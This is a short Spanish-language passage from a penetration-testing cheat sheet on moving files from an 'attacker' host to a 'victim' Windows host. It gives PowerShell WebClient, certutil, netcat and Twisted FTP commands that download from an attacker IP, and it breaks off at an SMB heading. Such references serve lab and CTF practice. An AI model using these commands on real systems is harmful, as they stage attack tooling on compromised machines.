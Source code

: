 - **Atacante:**

```bash
python -m SimpleHTTPServer 8080
```

- **Víctima:**

```powershell
powershell.exe -c "(New-Object System.NET.WebClient).DownloadFile('http://10.10.10.1:8080/FiletoTransfer','C:\Users\test\Desktop\FiletoTransfer')"
```

##### 2. Certutil.exe

- **Atacante:**

```bash
python -m SimpleHTTPServer 8080
```

- **Víctima:**

```cmd
certutil.exe -urlcache -split -f http://10.10.10.1:8080/FiletoTransfer FiletoTransfer
```

##### 3. Netcat

- **Víctima:**

```cmd
nc.exe -lvp 4444 > FiletoTransfer
```

- **Atacante:**

```bash
nc 10.10.10.2 4444 -w 3 < FiletoTransfer
```

##### 4. FTP (Twisted)

- **Atacante:**

```bash
twistd -n ftp -r .
```

- **Víctima:**

```cmd
ftp
open 10.10.10.1 2121
anonymous

get FiletoTransfer
bye
```

##### 5. SMB (Impacket)
